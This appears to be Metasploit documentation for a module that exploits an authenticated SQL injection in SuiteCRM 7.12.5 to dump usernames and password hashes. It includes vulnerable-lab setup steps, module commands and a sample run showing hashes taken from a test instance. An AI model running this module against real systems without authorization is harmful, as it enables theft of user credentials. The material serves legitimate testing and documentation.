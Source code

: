 ## Description
This module exploits an authenticated SQL injection in SuiteCRM installations below or equal to version 7.12.5. The 
vulnerability allows for union and blind boolean based SQLi to be exploited in order to collect usernames and password 
hashes from the SuiteCRM database.

## Vulnerable Application

The SQLi exploited by this module depends on the existence of at least one 'Account' being registered in SuiteCRM. 
An account can be added by authenticating to the GUI. Then at the top of the screen, click the 'Create' dropdown, 
select 'Create Accounts'. The Name field is the only required field, input a name, click save and the target should 
be exploitable.

### Docker compose

**Prerequisites:** [Docker](https://docs.docker.com/get-docker/) and
[Docker Compose](https://docs.docker.com/compose/install/) must be
installed first.

To create a SuiteCRM 7.12.5 Docker container, first create a new folder, 
then save the following content as `docker-compose.yml`:

```
version: '2'
services:
  mariadb:
    image: docker.io/bitnami/mariadb:10.6
    environment:
      # ALLOW_EMPTY_PASSWORD is recommended only for development.
      - ALLOW_EMPTY_PASSWORD=yes
      - MARIADB_USER=bn_suitecrm
      - MARIADB_DATABASE=bitnami_suitecrm
      - MARIADB_PASSWORD=bitnami123
    volumes:
      - 'mariadb_data:/bitnami/mariadb'
  suitecrm:
    image: docker.io/bitnami/suitecrm:7.12.5
    ports:
      - '80:8080'
      - '443:8443'
    environment:
      - SUITECRM_DATABASE_HOST=mariadb
      - SUITECRM_DATABASE_PORT_NUMBER=3306
      - SUITECRM_DATABASE_USER=bn_suitecrm
      - SUITECRM_DATABASE_NAME=bitnami_suitecrm
      - SUITECRM_DATABASE_PASSWORD=bitnami123
      # ALLOW_EMPTY_PASSWORD is recommended only for development.
      - ALLOW_EMPTY_PASSWORD=yes
    volumes:
      - 'suitecrm_data:/bitnami/suitecrm'
    depends_on:
      - mariadb
volumes:
  mariadb_data:
    driver: local
  suitecrm_data:
    driver: local 
```

Finally, in the same directory as the `docker-compose.yml` file, run: `docker-compose up -d`.

Note that the default username to log in will be `user` and the password will be `bitnami`. If you
want to change these, put the following lines under the `environment` section:

```
    environment:
      - SUITECRM_USERNAME=my_user
      - SUITECRM_PASSWORD=my_password
```

The above would set the username to `my_user` and the password to `my_password`.

For more information on the docker compose file, refer to
https://github.com/bitnami/containers/tree/main/bitnami/suitecrm.

### Install from source

Source code can be found here: [SuiteCRM v7.12.5](https://github.com/salesagility/SuiteCRM/archive/refs/tags/v7.12.5.tar.gz) 

Instructions on installing from source can be found here: [Installation Guide](https://docs.suitecrm.com/admin/installation-guide/downloading-installing/) 

The following setup was installed on Ubuntu 20.04:

1. Setup and install MySQL:
    1. `sudo apt update`
    1. `sudo apt install mysql-server`
    1. `sudo systemctl start mysql.service`
    1. `sudo mysql` (open the mysql prompt)
    1. `mysql> ALTER USER 'root'@'localhost' IDENTIFIED WITH mysql_native_password BY 'password';` (change the password 
       of the root user)
       
1. Install Apache
    1. `sudo apt install apache2`
    1. `sudo systemctl enable apache2`
    1. `sudo systemctl start apache2`
       
1. Install php and its dependencies
    1. `sudo apt -y install php7.4`
    1. `sudo apt install -y php-cli php-common php-curl php-mbstring php-gd php-mysql php-soap php-xml php-imap php-intl php-opcache php-json php-zip`
    1. `sudo apt install composer`
    1. `composer install`
    
1. Setup and install SuiteCRM 7.12.5
    1. `wget https://github.com/salesagility/SuiteCRM/archive/refs/tags/v7.12.5.tar.gz`
    1. `gunzip v7.12.5.tar.gz`
    1. `tar -xvf v7.12.5.tar`
    1. `sudo cp -r SuiteCRM-7.12.5/. /var/www/html`
    1. `cd /var/www/html`
    1. `sudo chown -R www-data:www-data .`
    1. `sudo chmod -R 755 .`
    1. `sudo chmod -R 775 custom modules themes data upload`
    1. `sudo chmod 775 config_override.php 2>/dev/null`
    1. Navigate to http://localhost/install.php and follow the installation wizard to complete the install
    

## Verification Steps

1. Start up metasploit
1. Do: `use auxiliary/gather/suite_crm_export_sqli`
1. Do: `set RHOSTS [IP]`
1. Configure a user and password by setting `USERNAME` and `PASSWORD`.
1. Do: `run`

## Scenarios

### SuiteCRM 7.12.5 running on Ubuntu 20.04
```
msf6 auxiliary(gather/suite_crm_export_sqli) > set rhosts 192.168.123.207
rhosts => 192.168.123.207
msf6 auxiliary(gather/suite_crm_export_sqli) > set username normal_user
username => normal_user
msf6 auxiliary(gather/suite_crm_export_sqli) > set password normal_user
password => normal_user
rmsf6 auxiliary(gather/suite_crm_export_sqli)) > run

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Authenticating as normal_user
[+] Authenticated as: normal_user
[*] Version detected: 7.12.5
[+] The target is vulnerable.
[*] Fetching Users, please wait...
SuiteCRM User Names
===================

 Username
 --------
 JoeDerp
 admin
 msfuser
 non_admin

[*] Fetching Hashes, please wait...
[+] (1/4) Username : admin ; Hash : $2y$10$TqjKZ4dWGNYQGiwDu5qSUu0RIsAO7uPRdIvX7gIm4pwjn.2t4ZYvi
[+] (2/4) Username : JoeDerp ; Hash : $2y$10$Qt4iloeWIQhgVX85cMNHieGVXYltvC/7fDaY1y5MhM90SZpENSJCm
[+] (3/4) Username : msfuser ; Hash : $2y$10$kr3tWzSZDbM9/y.FLZKf2esC1aghyEMa4e8KovsCCUE/GHlBjkgLe
[+] (4/4) Username : non_admin ; Hash : $2y$10$A.yaUnsujWh38ODrekuv0OxUGdPRcvKmgpYStJib5VoFigjQQDsfy
SuiteCRM User Credentials
=========================

 Username   Hash
 --------   ----
 JoeDerp    $2y$10$Qt4iloeWIQhgVX85cMNHieGVXYltvC/7fDaY1y5MhM90SZpENSJCm
 admin      $2y$10$TqjKZ4dWGNYQGiwDu5qSUu0RIsAO7uPRdIvX7gIm4pwjn.2t4ZYvi
 msfuser    $2y$10$kr3tWzSZDbM9/y.FLZKf2esC1aghyEMa4e8KovsCCUE/GHlBjkgLe
 non_admin  $2y$10$A.yaUnsujWh38ODrekuv0OxUGdPRcvKmgpYStJib5VoFigjQQDsfy

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```